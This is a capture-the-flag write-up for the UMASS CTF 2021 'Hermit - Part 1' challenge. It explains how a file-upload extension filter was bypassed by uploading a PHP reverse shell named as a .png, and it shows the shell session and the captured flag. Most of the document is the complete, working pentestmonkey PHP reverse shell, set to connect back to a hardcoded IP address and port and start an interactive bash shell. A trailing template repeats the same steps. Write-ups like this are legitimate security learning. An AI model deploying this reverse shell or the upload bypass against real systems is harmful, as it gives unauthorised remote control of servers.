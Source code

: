 # UMASS CTF 2021

[UMASS CTF 2021](https://ctf.umasscybersec.org/challenges#)
[CTF Time](https://ctftime.org/event/1282)

---

- [UMASS CTF 2021](#umass-ctf-2021)
  - [Hermit - Part 1 (HP1)](#hermit---part-1-hp1)
    - [Description - HP1](#description---hp1)
    - [Process - HP1](#process---hp1)
    - [Screen Grabs - HP1](#screen-grabs---hp1)
      - [User Shell - HP1](#user-shell---hp1)
      - [User Flag - HP1](#user-flag---hp1)
      - [Root LUL - HP1](#root-lul---hp1)
      - [Proof - HP1](#proof---hp1)
    - [Tools Used - HP1](#tools-used---hp1)
  - [Example Challenge Name (ECN1)](#example-challenge-name-ecn1)
    - [Description - ECN1](#description---ecn1)
    - [Process - ECN1](#process---ecn1)
    - [Screen Grabs - ECN1](#screen-grabs---ecn1)
    - [Tools User - ECN1](#tools-user---ecn1)

---

## Hermit - Part 1 (HP1)

### Description - HP1

Author: goproslowyo

This box was a simple extension filter bypass to gain a shell and get the flag.

### Process - HP1

1. Started `netcat` listener on `8001`.
2. Uploaded php reverse shell with an image extension -- `.png` worked fine.
3. We're given a random filename and a link to view it.
4. Viewing the link executed the reverse shell.
  `http://34.121.84.161:8086/show.php?filename=0YE8gg`.

```shell
hermit@aec9a5b5ef1d:/$ ls /home/hermit
ls /home/hermit
userflag.txt
hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
cat /home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### Screen Grabs - HP1

#### User Shell - HP1

![user shell](./assets/hp1/shell.png)

#### User Flag - HP1

![userflag.txt](./assets/hp1/flag.png)

#### Root LUL - HP1

![{a_test_of_integrity}](./assets/hp1/rootlol.png)

#### Proof - HP1

![proof](./assets/hp1/proof.png)

### Tools Used - HP1

1. [Pentest Monkey PHP Revshell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit(0);
$VERSION = "1.0";
$ip = '34.251.165.208';
$port = 8001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; whoami; /bin/bash -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
  $pid = pcntl_fork();
  if ($pid == -1) {
    printit("ERROR: Can't fork");
    exit(1);
  }
  if ($pid) {
    exit(0);  // Parent exits
  }
  if (posix_setsid() == -1) {
    printit("Error: Can't setsid()");
    exit(1);
  }
  $daemon = 1;
} else {
  printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
  printit("$errstr ($errno)");
  exit(1);
}
$descriptorspec = array(
  0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
  1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
  2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
  if (feof($sock)) {
    printit("ERROR: Shell connection terminated");
    break;
  }
  if (feof($pipes[1])) {
    printit("ERROR: Shell process terminated");
    break;
  }
  $read_a = array($sock, $pipes[1], $pipes[2]);
  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
  if (in_array($sock, $read_a)) {
    if ($debug) printit("SOCK READ");
    $input = fread($sock, $chunk_size);
    if ($debug) printit("SOCK: $input");
    fwrite($pipes[0], $input);
  }
  if (in_array($pipes[1], $read_a)) {
    if ($debug) printit("STDOUT READ");
    $input = fread($pipes[1], $chunk_size);
    if ($debug) printit("STDOUT: $input");
    fwrite($sock, $input);
  }
  if (in_array($pipes[2], $read_a)) {
    if ($debug) printit("STDERR READ");
    $input = fread($pipes[2], $chunk_size);
    if ($debug) printit("STDERR: $input");
    fwrite($sock, $input);
  }
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit($string) {
  if (!$daemon) {
    print "$string\n";
  }
}
?>
```

---

template:

## Example Challenge Name (ECN1)

### Description - ECN1

Author: you

Quick overview of box, e.g. this box was a simple extension filter bypass to gain a shell and get the flag.

### Process - ECN1

1. Started `netcat` listener on `8001`.
2. Uploaded php reverse shell with an image extension -- `.png` worked fine.
3. We're given a random filename and a link to view it.
4. Viewing the link executed the reverse shell.
  `http://34.121.84.161:8086/show.php?filename=0YE8gg`.

```shell
hermit@aec9a5b5ef1d:/$ ls /home/hermit
ls /home/hermit
userflag.txt
hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
cat /home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### Screen Grabs - ECN1

![user shell](./assets/ECN1/shell.png)
![userflag.txt](./assets/ECN1/flag.png)
![{a_test_of_integrity}](./assets/ECN1/rootlol.png)
![proof](./assets/ECN1/proof.png)

### Tools User - ECN1

1. A tool [link](https://somewhere.local)
2. B Tool
3. C Tool
